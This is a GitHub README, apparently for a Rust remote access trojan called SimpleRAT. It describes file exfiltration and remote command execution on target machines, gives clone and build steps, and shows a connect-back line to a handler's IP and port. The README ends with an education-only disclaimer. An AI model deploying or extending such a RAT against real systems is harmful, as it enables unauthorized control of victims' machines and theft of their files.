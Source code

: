 
# SimpleRAT

![SimpleRAT](https://img.shields.io/badge/SimpleRAT-v1.0-orange.svg)
![License](https://img.shields.io/badge/license-MIT-green.svg)

SimpleRAT is a basic Remote Access Trojan (RAT) written in Rust. It allows for remote control and file transfer capabilities, designed to be used in conjunction with the [ReverseShellHandler](https://github.com/Jirka5091/ReverseShellHandler).

## Features

- 📁 File transfer from target system to handler
- 📜 Execute system commands on the target machine
- 📡 Connects to ReverseShellHandler for managing sessions

## Installation

To build and run SimpleRAT, ensure you have Rust installed. Then, follow these steps:

```bash
git clone https://github.com/Jirka5091/SimpleRAT
cd SimpleRAT
# Edit the main.rs file to set the handler IP and port
nano src/main.rs
cargo build --release
```

In `main.rs`, set the handler IP and port:

```rust
let mut stream = TcpStream::connect("127.0.0.1:8080")
```

## Usage

To start the SimpleRAT, use the following command:

```bash
./target/release/simple_rat
```

## Integration with ReverseShellHandler

SimpleRAT is intended to be used with the [ReverseShellHandler](https://github.com/Jirka5091/ReverseShellHandler). Ensure the handler is running and listening on the specified IP and port before starting SimpleRAT.

## Disclaimer

This tool is intended for educational purposes and legitimate penetration testing only. Unauthorized use of this tool to compromise computer systems, networks, or any other systems without permission is illegal and unethical. The author is not responsible for any misuse of this tool.

## License

This project is licensed under the MIT License - see the [LICENSE](LICENSE) file for details.

## Author

[crash_byte](https://github.com/Jirka5091)
